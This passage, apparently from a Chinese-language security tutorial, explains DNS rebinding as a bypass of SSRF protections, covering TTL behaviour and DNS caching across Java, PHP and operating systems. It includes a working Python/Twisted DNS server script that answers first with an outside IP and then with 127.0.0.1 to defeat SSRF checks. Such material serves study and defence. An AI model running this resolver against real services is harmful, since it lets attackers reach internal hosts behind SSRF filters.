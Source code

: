 3.3 DNS rebinding
-----------------

从 SSRF 修复方案来看，这里流程中进行了两次 DNS 解析，第一次在 check_ssrf 的时候会对 URL 的 host 进行 DNS 解析，第二次在 do_curl 请求时进行解析。这两次 DNS 解析是有时间差的，我们可以使用这个时间差进行绕过。  

 

时间差对应 DNS 中的机制是 TTL。TTL 表示 DNS 里面域名和 IP 绑定关系的 Cache 在 DNS 上存活的最长时间。即请求了域名与 iP 的关系后，请求方会缓存这个关系，缓存保持的时间就是 TTL。而缓存失效后就会删除，这时候如果重新访问域名指定的 IP 的话会重新建立匹配关系及 cache。

当我们设置 TTL 为 0 时，当第一次解析域名后，第二次会重新请求 DNS 服务器获取新的 ip。DNS 重绑定攻击的原理是：利用服务器两次解析同一域名的短暂间隙，更换域名背后的 ip 达到突破同源策略或过 waf 进行 ssrf 的目的。

1. 在网站 SSRF 漏洞处访问精心构造的域名。网站第一次解析域名，获取到的 IP 地址为 A；  
2. 经过网站后端服务器的检查，判定此 IP 为合法 IP。  
3. 网站获取 URL 对应的资源（在一次网络请求中，先根据域名服务器获取 IP 地址，再向 IP 地址请求资源），第二次解析域名。此时已经过了 ttl 的时间，解析记录缓存 IP 被删除。第二次解析到的域名为被修改后的 IP 即为内网 IP B；  
4. 攻击者访问到了内网 IP。   

当然，上述情况是最理想的情况，在不同的语言，不同服务器中也存在差异

 

1. java 中 DNS 请求成功的话默认缓存 30s(字段为 networkaddress.cache.ttl，默认情况下没有设置)，失败的默认缓存 10s。（缓存时间在 /Library/Java/JavaVirtualMachines/jdk /Contents/Home/jre/lib/security/java.security 中配置）  
2. 在 php 中则默认没有缓存。  
3. Linux 默认不会进行 DNS 缓存，mac 和 windows 会缓存 (所以复现的时候不要在 mac、windows 上尝试)  
4. 有些公共 DNS 服务器，比如 114.114.114.114 还是会把记录进行缓存，但是 8.8.8.8 是严格按照 DNS 协议去管理缓存的，如果设置 TTL 为 0，则不会进行缓存。   

在传统的 ssrf 修复方案中，由于 java 会存在默认的 dns 缓存，所以一般认为 java 不存在 DNS rebinding 问题。但是试想这么一个场景，如果刚刚好到了 DNS 缓存时间，此时更新 DNS 缓存，那些已经过了 SSRF Check 而又没有正式发起业务请求的 request，是否使用的是新的 DNS 解析结果。其实理论上只要在发起第一次请求后等到 30 秒之前的时候再请求即可，但为了保证效果，可以在 28s 左右，开始以一个较短的时间间隔去发送请求，以达到时间竞争的效果。相关示例代码可参考附录三。

Dns rebinding 常见方案除了自建 dns 服务器之外，还可以通过绑定两个 A 记录，一个绑定外网 ip，一个绑定内网 ip。当然这种情况访问顺序是随机的，无法保证成功率。

自建 dns 服务器需要将域名的 dns 服务指向自己的 vps，然后在 vps 上运行 dns_server 脚本，dns_server.py 内容如下   

```
from twisted.internet import reactor, defer
from twisted.names import client, dns, error, server


record={}
class DynamicResolver(object):
    def _doDynamicResponse(self, query):
        name = query.name.name
        if name not in record or record[name]<1:
            # 随意一个 IP，绕过检查即可
            ip="104.160.43.154"
        else:
            ip="127.0.0.1"
        if name not in record:
            record[name]=0
        record[name]+=1
        print name+" ===> "+ip
        answer = dns.RRHeader(
            name=name,
            type=dns.A,
            cls=dns.IN,
            ttl=0,
            payload=dns.Record_A(address=b'%s'%ip,ttl=0)
        )
        answers = [answer]
        authority = []
        additional = []
        return answers, authority, additional
    def query(self, query, timeout=None):
        return defer.succeed(self._doDynamicResponse(query))

```